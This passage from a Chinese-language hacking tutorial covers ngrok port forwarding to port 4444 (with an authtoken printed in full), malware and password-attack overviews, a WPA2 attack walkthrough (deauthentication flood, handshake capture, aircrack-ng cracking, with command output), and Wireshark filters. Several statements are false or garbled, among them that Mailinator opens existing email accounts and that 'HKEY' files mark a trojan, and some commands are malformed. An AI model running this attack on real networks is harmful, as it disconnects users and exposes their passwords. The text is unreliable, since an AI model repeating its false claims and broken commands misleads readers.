

认证后，您将看到一条消息：`Authtoken saved to configuration file: /home/anon/.ngrok2/ngrok.yml`。如果认证失败，请重试或重启电脑。

```bash
anon@kali: ~/Downloads$ ./ngrok authtoken 1jRzeTv3nTmkH5d5do7sbpyBZor_2qengGs33pz35xRH
Authtoken saved to configuration file: /home/anon/.ngrok2/ngrok.yml
```

认证完成后，您可以连接 ngrok 并使用其服务。要在终端连接 ngrok，请输入以下命令：

```bash
$ ngrok (protocol name) (Port number which you want to forward)
```

示例：**ngrok tcp 4444**



现在，我们可以将 **0.tcp.ngrok.io** 作为我们的公网 IP，将 **10714** 作为端口。所有发送到此端口的请求都将被转发到我的本地端口 4444。

## 特洛伊木马、病毒与蠕虫


### 什么是特洛伊木马？

特洛伊木马被认为是流传最广的病毒之一，是一种具有高度传染性的程序，会对计算机健康造成严重损害。特洛伊木马是一种缺陷计算机程序，可以通过删除重要文件或进行关键更改来感染远程计算机。特洛伊木马可以伪装成来自可靠来源的合法软件或文件。

一旦运行，所有关键文件都会被感染，在某些情况下，您可能会失去系统的某些核心功能。判断系统是否被感染的一个简单方法是查看文件名以“HKEY”开头的可疑文件。对抗木马的最佳方法是安装可靠的杀毒软件并确保其始终处于最新状态。这是因为有些人一直在不断创建新的木马程序来在网络上制造混乱。

### 什么是病毒？

计算机病毒是一种旨在使计算机运行异常的软件程序。这些病毒程序通常具有自我复制能力，这意味着它们可以产生副本，从而在您的计算机或通过网络连接的其他计算机中传播。

如果没有安装计算机杀毒软件，它们可能完全不被察觉。大多数病毒可以附加到其他程序中，尤其是那些由互联网用户下载的程序。下载是计算机病毒进入用户电脑最常见的途径之一，但并非唯一途径。

考虑到病毒会占用大部分系统资源，它们还会对计算机系统的性能产生负面影响。人们可能不会立即意识到计算机因为病毒而变慢，但随着时间的推移，其存在感会变得非常明显。


#### 什么是蠕虫？

蠕虫是一种附着在文件上的病毒形式，但它与病毒有所不同。蠕虫可以在你不知情的情况下自行复制并在计算机中传播。它不仅能传播到计算机的所有不同部分和文件中，而且还能轻易地通过电子邮件进行传播。

请记住，蠕虫在你的计算机中停留的时间越久，它造成的损害和干扰就越大。幸运的是，目前有许多杀毒程序可以大大增强保护能力。然而，你需要考虑的一点是，即使杀毒软件提高了防护水平，也不能保证整个系统的绝对防御。

| | 特洛伊木马 | 病毒 | 蠕虫 |
| :--- | :--- | :--- | :--- |
| **定义** | 一种可用于从远程位置控制受害者计算机系统的恶意程序。 | 一种将自身附加到程序和文件中的自我复制程序。 | 一种通过网络传播到计算机系统的非法程序。 |
| **目的** | 窃取敏感数据、监视受害者计算机等。 | 降低计算机系统性能、损坏用户数据等。 | 在受害者计算机上安装后门、降低用户网络速度等。 |
| **应对措施** | 更新补丁以使用杀毒软件；针对操作系统、互联网和外部存储介质的使用制定安全策略等。 | | |

#### 应对措施

特洛伊木马、病毒和蠕虫的来源多种多样，其中互联网是主要的来源。如果你经常访问互联网，或者与经常上网的人共享文件，那么接触到计算机病毒的可能性很高。然而，这不应成为担心的原因，因为有无数的软件旨在保护你的计算机。它们有免费版和付费版，其效果和价格取决于你选择的杀毒程序。

以下是你可以保护计算机免受病毒攻击的几种方法：

- 1. 避免从互联网下载不必要的文件。这包括垃圾邮件附件、游戏以及那些看起来“好得令人难以置信”的优惠程序。
- 2. 安装杀毒程序。该程序应定期更新，以与新版本的特洛伊木马保持同步。
- 3. 在使用外部存储设备之前，先在另一台计算机上对其进行扫描。
- 4. 将重要信息备份到外部存储设备中（例如 CD 和 DVD 等只读介质），以防恶意软件或特洛伊木马导致计算机瘫痪。
- 5. 更新你的操作系统，以减少感染和病毒复制。
- 6. 在下载附件之前对其进行扫描。

## 密码攻击与破解


### 什么是密码破解？

密码破解是指用于揭露计算机密码的过程。破解计算机密码可以通过重复猜测密码或使用算法生成密码来实现。这个过程通常出于好或坏的原因而进行。如果你忘记了计算机密码，密码破解可以帮你恢复数据。系统管理员也可以出于非恶意原因进行密码破解，例如尝试确定所用密码的强度。另一方面，该过程也可能出于恶意原因而进行，例如在未经同意的情况下访问他人的信息。密码破解与网络犯罪相关，即第三方窃取他人的机密信息以谋取私利。

### 最佳密码破解技术

密码破解中使用了许多技术，但我们将探讨最常用的五种。在接下来的实践课程中，我们也将使用这些技术：

- 1. 社会工程学
社会工程学是指通过人类交互开展的广泛恶意活动的术语。基本上，它是利用各种黑客工具和技术操纵/欺骗人类大脑的艺术。这是在足迹分析（footprinting）之后的黑客攻击下一步，黑客在此阶段尝试获取有关目标的某些重要信息。

- 2. 网络钓鱼
网络钓鱼也是社会工程学的一个小部分。在这种攻击中，黑客制作一个网站或页面的虚假副本并将其发送给受害者，而不是发送真实的页面；当受害者输入用户名和密码时，攻击者将获得数据的副本。这类攻击仅用于破解那些需要输入信息才能登录的网站。

- 3. 彩虹表攻击
这可能是寻找密码并入侵他人计算机或安全系统最快的方法之一。黑客的做法是使用一个预先计算的哈希表，该表已经与可能的密码进行了预匹配。

然后，彩虹表攻击让黑客能够反转哈希函数并找到正确的密码。在黑客获得密码数据库的访问权限后，他们将哈希后的密码与表中的潜在明文词汇进行比对。

保护密码的常见安全系统在面对彩虹表攻击时非常低效。利用彩虹表攻击，黑客可以在不到三分钟的时间内破解一个十四位密码。

- 4. 暴力破解攻击
这可能是入侵计算机最简单、最容易的方法。攻击受保护计算机的暴力破解法意味着黑客不断尝试各种用户名和密码组合，直到获得正确的密码。

或者，黑客可能会使用机器人（bot）来获得执行此类攻击所需的算力。为了执行暴力破解攻击，对于一个八位密码，你需要一台每秒能处理数百万种组合的超级计算机。

如果密码有九位，超级计算机可能需要多花几秒钟才能找到正确的用户名和密码组合。

- 5. 字典攻击
正如你可能猜到的，字典攻击使用字典中的单词来帮助发现被攻击系统的正确密码。这是通过一种系统化的方法完成的。

字典攻击也可以使用相同的方法来寻找解密密钥。这种攻击在黑客中如此受欢迎的原因是，企业和个人经常使用简单的名称或单词作为密码。

字典攻击无法做的是破解多词密码。它也无法对随机使用大小写字母并结合数字的密码系统起作用。

### 使用暴力破解攻击破解 WiFi

本节将继续通过使用暴力破解来破解 wpa2 WiFi 网络。为了实现这一点，我们将捕获握手包（handshake）。这是以加密格式存储的 WiFi 密码。

我们需要使用一个 WiFi 适配器来执行此攻击。该适配器必须内置在笔记本电脑中，否则如果你使用的是 Kali Linux 虚拟机，它很难工作。

你也可以选择使用 Live USB 驱动器，甚至购买一个独立的无线网络适配器。

#### 按照以下步骤捕获握手包：

- 1. 打开终端并输入 `iwconfig`



从上述结果中，你可以清楚地看到 WiFi 目前处于“管理模式（manage mode）”。我们需要将其设置为“监听模式（monitor mode）”，以便它能扫描你所在区域所有现有的无线网络。

- 2. 输入 **airmon-ng start (interface name)**



如果我们选择回去输入 `iwconfig`，可能会发现接口现在已被更改为 `wlan0mon`，并且它现在变成了监听器。



现在我们需要扫描该区域所有现有的 WiFi 网络、目标 MAC 地址和信道号。

- 3. 输入 **airodump-ng (interface name)**



现在我们可以看到该区域所有现有无线网络的名称及其 BSSID、加密方式和信道号等信息。

“BSSID”一词是指相关区域内现有无线网络适配器的 MAC 地址。在每个站点下，我们可以看到每个相应的网络及其对应的 BSSID。

此时，我们已经获得了目标网络的信道号和 BSSID。现在可以继续捕获握手包。

- 4. 关闭之前的终端并打开一个新终端。

你现在必须关闭之前的终端并打开一个新的。输入 `airodump-ng -- bssid (目标网络的 MAC 地址), the channel (信道号) -w capture (接口名称) 等`。

```
airodump-ng -- bssid 18:45:93:79:5D:07 -- channel 1 -w capture wlan0mon
```


系统现在已开始扫描单个网络。我们现在需要开始向路由器发送去身份验证（deauthentication）数据包，以便获取握手包。输入给定的命令来执行此操作。

- 5. 输入 `aireplay-ng -0`（这是您希望发送的数据包数量）`--bssid`（目标路由器的 BSSID）并以（接口名称）结尾。

```
e.g. aireplay-ng -0 10 -a 18:45:93:79:5D:09 wlan0mon
```

```
##### aireplay-ng -0 10 -a 18:45:93:79:5D:09 wlan0mon
16:00:36 Waiting for beacon frame (BSSID: 18:45:93:79:5D:09) on channel 1
NB: this attack is more effective when targeting a connected wireless client (-c <client's mac>).
16:00:36 Sending DeAuth (code 7) to broadcast -- BSSID: [18:45:93:79:5D:09]
16:00:37 Sending DeAuth (code 7) to broadcast -- BSSID: [18:45:93:79:5D:09]
16:00:37 Sending DeAuth (code 7) to broadcast -- BSSID: [18:45:93:79:5D:09]
16:00:37 Sending DeAuth (code 7) to broadcast -- BSSID: [18:45:93:79:5D:09]
16:00:38 Sending DeAuth (code 7) to broadcast -- BSSID: [18:45:93:79:5D:09]
16:00:38 Sending DeAuth (code 7) to broadcast -- BSSID: [18:45:93:79:5D:09]
16:00:39 Sending DeAuth (code 7) to broadcast -- BSSID: [18:45:93:79:5D:09]
16:00:39 Sending DeAuth (code 7) to broadcast -- BSSID: [18:45:93:79:5D:09]
16:00:40 Sending DeAuth (code 7) to broadcast -- BSSID: [18:45:93:79:5D:09]
16:00:40 Sending DeAuth (code 7) to broadcast -- BSSID: [18:45:93:79:5D:09]
[root@kali:~/home/kali]$
```

每当我们向路由器发送去身份验证数据包时，所有连接到该路由器的设备都会自动断开连接。

在发送完所有去身份验证数据包后，这些设备将再次自动重新连接。这当然会引发另一次握手。

因此，如果我们回到最初开始监控目标网络的终端，现在就能看到接收到的握手包，我们可以进一步利用它，通过暴力破解或字典攻击来破解无线局域网（Wi-Fi）网络的密码。

由于我们没有为捕获的文件指定任何路径，它将以 `.cap` 为扩展名存储在根目录下。

#### 使用暴力破解攻击破解 Wi-Fi 密码

要破解 Wi-Fi 密码，请打开终端并输入以下命令：

`aircrack-ng (带有路径的捕获文件) -w (带有路径的密码列表)`

```
aircrack-ng home/kali/capture-01.cap -w home/kali/Desktop/password.txt/
```

如您所见，我们找到了 Wi-Fi 密码。在自行操作时，在运行暴力破解攻击之前，请至少发送 50 次（每次 10 个）去身份验证数据包，否则 `aircrack-ng` 可能不会尝试所有密码，从而向您发送错误的结果。

将监听模式（monitor mode）更改为管理模式（manage mode）以连接 Wi-Fi。输入 `airodump-ng stop (接口名称)` 来更改适配器的当前模式。

#### 密码破解的应对措施

为了防止密码被破解，您的计算机密码应至少包含 12 个字符。然而，如果您记忆力良好，强烈建议使用 16 位密码，因为这种密码极难破解。以下是关于安全计算机密码需要了解的一些事项：

- i. 密码应同时包含小写字母和大写字母。您还需要包含数字和特殊字符。这并不意味着每个密码都必须包含上述所有内容。小写字母和数字的组合就足以让您的计算机相当安全——这完全取决于您希望系统达到什么样的安全级别。
- ii. 您应避免在长时间内使用同一个密码。准备几个不同的计算机密码，以防止未经授权的人员访问您的信息。
- iii. 如果可能，请随机生成密码。
- iv. 一个好的密码不应包含任何用户个人元素。这包括出生日期、宠物姓名、社会安全号码、地址、年龄等。
- v. 除非这些单词是随机选择的，否则密码不应包含简单的单词组合。
- vi. 最后，不建议将密码写下来，除非您能将其与其他人员隔绝（例如放在保险箱中）。您可以使用密码管理器软件，但使用基于云的密码管理器并不是一个好主意。

## 网络嗅探与欺骗

### 什么是网络嗅探？

网络嗅探是指使用被称为“网络嗅探器”的软件工具，监控在不同计算机线路上传输的数据流。这种嗅探器可以是一个封闭的软件程序包，也可以是由相应软件控制的硬件设备。

当数据流经嗅探器时，该工具会截取数据的快照，但不会更改或重定向这些数据。黑客也会使用这种工具来获取关键信息。网络嗅探器可以捕获流经的密码。

### 什么是网络欺骗？

网络欺骗的简明定义是：获取未经授权访问的计算机数据。为了正确执行网络欺骗，黑客或未经授权的用户需要伪装成另一台计算机或计算机程序的身份。

欺骗有多种类型，包括电子邮件欺骗、网络欺骗和 IP 欺骗。希望使用欺骗方法的黑客必须找到一台受信任计算机或程序的身份，冒用该身份并获取私密信息。由于伪造的 ID 是受信任的，黑客通常可以毫无障碍地进入受限区域。

### 三大网络嗅探和欺骗工具

要选择最佳的嗅探和欺骗工具，您需要考虑所使用的操作系统类型。有些可能是专门为 Windows 设计的，有些则是为 Linux 设计的，依此类推。

- 1. **Wireshark** - 这是一个兼容 Windows、Linux 和其他操作系统的嗅探工具。它的特长是深入监控计算机的底层。
您可以使用它进行实时捕获和离线分析，捕获的数据可以在 GUI 和其他设备上查看。它还具有非常强大的显示过滤器，并支持包括 WPA 和 WPA2 在内的多种协议。您可以在这个[网站](website)上阅读相关详细内容，并从中下载。

- 2. **Smartsniff** - 这是一个免费的嗅探工具，可捕获在计算机上流动的 TCP/IP 数据，并允许您通过模拟对话来查看。该嗅探器兼容 Windows 2000/XP 或更高版本。
唯一的例外是其 WinPcapture 驱动程序，它可以与所有 Windows 操作系统配合使用。该工具的一个强大功能是允许您以 ASCII 模式查看捕获的数据。另一种查看模式是十六进制转储（hex dump）功能。[点击这里]访问他们的网站。

- 3. **Mailinator** - 这是一个在多方面都具有特色的欺骗工具。它允许您在使用的过程中保持匿名。此外，您可以使用其域名创建新的电子邮件账户。
最重要的是，它允许您访问已经存在的电子邮件账户。您只需输入电子邮件地址，该工具即可授予您访问权限。您可以使用[此链接]访问其网站并获取所有需要的信息。

## 使用 Wireshark 进行网络嗅探

在本节中，我们将学习如何使用 Wireshark 进行网络嗅探。该工具带有图形用户界面，使其易于使用。

- 1. 通过进入应用程序菜单，在“嗅探与欺骗（Sniffing and Spoofing）”下点击 Wireshark 来打开它。

Wireshark 的主屏幕上有两个过滤器。第一个是显示过滤器（display filter），第二个是捕获过滤器（capture filter）。如果我们以默认设置运行 Wireshark，它会捕获大量数据包，这可能会让情况变得混乱，因此我们使用过滤器来限制结果。显示过滤器用于在捕获所有流量后对其进行筛选，但如果我们使用捕获过滤器，Wireshark 将仅捕获我们指定的过滤流量。

在捕获过滤器下，我们可以选择按网络接口捕获流量。如果我们不使用任何过滤器，Wireshark 默认将捕获所有流量。让我们在不指定任何过滤器的情况下捕获 `wlan0` 数据包。


要运行 Wireshark，只需点击您想要捕获数据包的接口。我使用的是 `wlan0`，因为我是通过无线适配器连接的。



我们可以看到每个数据包都有其时间、源 IP、目的 IP、协议、长度和信息。如果向下滚动，可以看到在几分钟内它捕获了 1000 多个数据包。




让我们使用显示过滤器来限制结果。在应用过滤器之前，我们必须停止 Wireshark 捕获数据包。显示过滤器的上方有一个红色方块，点击它即可停止 Wireshark。



现在，让我们通过应用显示过滤器来缩小结果范围。

如我们所见，我应用了 TCP 显示过滤器，现在我只能看到 TCP 数据包。

### Wireshark 常用过滤器

- 1. 协议过滤器

我们可以使用显示过滤器或捕获过滤器来捕获来自特定**协议**的数据包。只需在过滤器中指定您想要捕获数据包的**协议**即可。



现在，我们只能看到 HTTP 数据包。

### 2. 端口过滤器

我们可以使用端口过滤器来筛选来自特定端口号的数据包。首先，我们指定一个协议，然后加上 **port** 以告诉 Wireshark 您想要筛选特定端口号的数据包，接着加上 `== (端口号)`。例如：

```
tcp.port == 80
```



### 3. IP 地址过滤器

我们可以使用 IP 地址过滤器来筛选来自特定 IP 地址的数据包。如果我们有一个目标并想要监控流量，这会非常有帮助。只需输入 **ip.addr == (ip address)** 即可查看与该 IP 地址相关的数据包。



现在，我们只能看到来自特定 IP 地址的数据包。

### 4. 源和目的过滤器

我们还可以筛选来自特定源 IP 和目的 IP 地址的数据包。使用 `ip.src == (ip address)` 来筛选来自源 IP 的数据包，使用 `ip.dst == (ip address)` 来筛选来自目的 IP 地址的数据包。



### 5. 多协议显示过滤器

如果我们想要筛选来自多个协议的数据包，可以使用 **or** 语法。输入 `(第一个协议) or (第二个协议)` 来筛选来自多个协议的流量。



现在我们只能看到来自 TCP 和 HTTP 这两种协议的数据包。

#### 6. 移除不需要的数据包

当我们长时间使用 Wireshark 时，它会捕获大量数据包，因此为了简化情况，我们首先必须从数据中移除不需要的数据包。我们可以使用 **!(第一个协议 or 第二个协议 or 第三个协议)** 来移除不需要的数据包。



#### 7. TCP, HTTP 流

我们可以使用 TCP 流过滤器来跟踪单个 TCP 连接。选择您想要查看 TCP 流的源，右键点击它，在“Follow”下点击 “TCP stream”。

